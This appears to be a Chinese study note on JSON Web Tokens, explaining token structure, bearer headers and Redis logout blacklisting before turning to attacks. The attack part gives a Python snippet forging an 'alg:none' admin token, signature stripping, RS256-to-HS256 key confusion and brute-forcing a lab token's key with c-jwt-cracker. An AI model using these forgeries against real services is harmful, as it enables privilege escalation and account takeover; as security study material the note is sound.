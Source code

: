 json web token
jwt如：
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJuYW1lIjoi5bCP5piOIiwiaWQiOjEsImV4cCI6MTcwMzYwMzAxMywiaWF0IjoxNzAyOTk4MjEzLCJhdXRob3JpdGllcyI6W119.
McX2dyX5yW0S6lUsDC4s4qQpKHW072bmoS3fRSaUn9I
```
好处：jwt可以用于分布式系统，cs系统。
只要jwt时间没有过期，服务端代码没有变，服务端重启也还生效。
## **jwt组成**
在线解密和生成：
<https://jwt.io/#debugger-io>
<https://tooltt.com/jwt-decode/>

生成的jwt，由三部分组成，用.区分：
首部（头部）：用的什么加密算法，一般HMAC256（HS256）。
中部（载体）：加入的用户信息，jwt生成时间，jwt过期时间。
尾部：前面部分->密钥+加密算法->签名后的值。

^
首部可以base64解码查看用的什么加密算法
中部可以base64解码查看用户信息，jwt过期时间等


^
## **jwt会话**
jwt一般后端通过json响应体或setcookie给前端
前端通过请求头携带Authorization: Bearer xxx.xxx.xxx
"Bearer" 表示使用 Bearer 身份验证方案

或token请求头字段

这样跨域时不自动携带cookie也没关系
```
请求头：
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV\_adQssw5c



前端：
axios.get('https://example.com/api/some-resource', {
  headers: {
    'Authorization': `Bearer ${jwtToken：从本地localstorage取等}`
  }
})
  .then(response => {
    // 处理响应
  })
  .catch(error => {
    // 处理错误
  });
```
具体：
登录接口登录成功后，后端返回json中有jwt，前端保存jwt到本地存储，之后每次请求携带上。

## **jwt失效**
1. 时间过期失效。
2. 加入黑名单主动失效。
3. 数据库实时验证： 将令牌和用户信息关联存储在数据库中，当用户登出时，删除相应的 Token 记录。验证时，检查数据库中是否存在对应的 Token 记录。





点击退出登录加入redis黑名单：
将 JWT的标识ID如UUID 存储在 Redis 中作为黑名单是一种常见的方式来实现用户退出登录后使 JWT 失效。这通常被称为 JWT 的黑名单机制。

实现方式如下：
1. **用户退出登录时：** 当用户主动退出登录或者进行注销操作时，将相应的 JWT的UUID 加入 Redis 黑名单。可以使用 Redis 的 Set 数据结构，将 JWT 的唯一标识存储UUID在 Set 中。
2. **验证 JWT 是否有效：** 在接收到请求时，首先解析JWT检查 JWT 的UUID是否在 Redis 黑名单中。如果 JWT的UUID 存在于黑名单，说明用户已经退出登录，此时应拒绝该 JWT 的访问。
3. **JWT 过期处理：** JWT 本身包含了过期时间信息，因此在验证 JWT 有效性时，也需要检查 JWT 是否已经过期。即使 JWT 不在黑名单中，如果已经过期，也应该拒绝其访问。





^
## **双token登录方案**
access_token 在登陆后会存在redis中`user:token:token 为key`有效时间为12小时
refresh_token 则不会存在redis中, 会存在cookie中, 有效时间为一周

![](.topwrite/assets/image_1729654109098.png)




^
## **伪造jwt越权**
jwt的数据载体可能会有表示这个用户是否为管理员，如"admin":"flase"。
如果知道jwt的加密算法模式和密钥(爆破出，泄露出)，或者错误使用了空算法模式（无需密钥，"alg":"none"）。

**空密钥：**
无需密钥，如：
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoi5bCP5piOMyIsImlkIjoyLCJleHAiOjE3MDM2MDMwMTMsImlhdCI6MTcwMjk5ODIxMywiYXV0aG9yaXRpZXMiOlsxXX0.GcIsfpEB3dv62Yt88yjYBeHhzHKAgNcfVzR5Fso6kjw
```
就可以修改"admin":"true"，再使用算法重新签名。
实现越权。
在线生成：<https://jwt.io/#debugger-io>
参考：<http://cnblogs.com/vege/p/14468030.html>

^
**nodejs的空密钥：**
nodejs的jwt缺陷，当jwt的secret为空，jwt会采用algorithm为none进行解密。
于是：
```
import base64

a = '{"alg":"none","typ":"JWT"}'
b = '{"secretid":[],"username":"admin","password":"123","iat":1660895973}'
print(base64.b64encode(a.encode('utf-8')))
print(base64.b64encode(b.encode('utf-8')))

# 生成eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=
# 生成eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMyIsImlhdCI6MTY2MDg5NTk3M30=
# 于是JWT：eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMyIsImlhdCI6MTY2MDg5NTk3M30.
```


^
#### **如果后端校验jwt不严**
可以将jwt头的alg字段改为none，修改载体，在将第三方部分直接删除，保留一个点
```
xxx.xxx.
```




^
## **PS256算法的jwt可以伪造**
<https://blog.csdn.net/weixin_53090346/article/details/134277438>
<https://www.cnblogs.com/S1gMa/p/16846438.html>


^
## **RS256加密的jwt**
RS256加密的jwt是私钥加密，前端公钥解密。
JWT的签名加密算法有两种，对称加密算法和非对称加密算法。
对称加密算法比如HS256，加解密使用同一个密钥，保存在后端。
非对称加密算法比如RS256，后端加密使用私钥，前端解密使用公钥，公钥是我们可以获取到的。

如果我们修改header，将算法从RS256更改为HS256，后端代码会使用RS256的公钥作为HS256算法的密钥。于是我们就可以用RS256的公钥伪造数据
CTF题目：[http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php](https://links.jianshu.com/go?to=http%3A%2F%2Fdemo.sjoerdlangkemper.nl%2Fjwtdemo%2Frs256.php)





^
## **jwt逻辑漏洞**
生成jwt的密钥简单，如123456，如用用户名做密钥。
jwt没有主动失效，只有靠时间失效，容易被盗取。

^
## **更多学习和工具**
<https://www.jianshu.com/p/2488567c4a18>


^
## **破解jwt**
如对HS256方式进行爆破密钥

\#访问靶场，获取token
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE3MDIwMjQ3ODEsImxldmVsIjoidXNlciI
sInVzZXIiOiJqYXNwZXIifQ.zzr9KoJFdElwSGjcs3zs6Zgv0Lp\_eA4Secn8sUEVgIA

\#使用c-jwt-cracker-master 破解，<https://www.cnblogs.com/easyday/p/18022431#:~:text=Manual%20Com>
获得key：hello
```
git clone https://github.com/brendan-rius/c-jwt-cracker
apt-get install libssl-dev
make

./jwtcrack
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE3MDIwMjQ3ODEsImxldmVsIjoidXNlciI
sInVzZXIiOiJqYXNwZXIifQ.zzr9KoJzs6Zgv0Lp_eA4Secn8sUEVgIA
```
\#使用https\://jwt.io/，进行加密


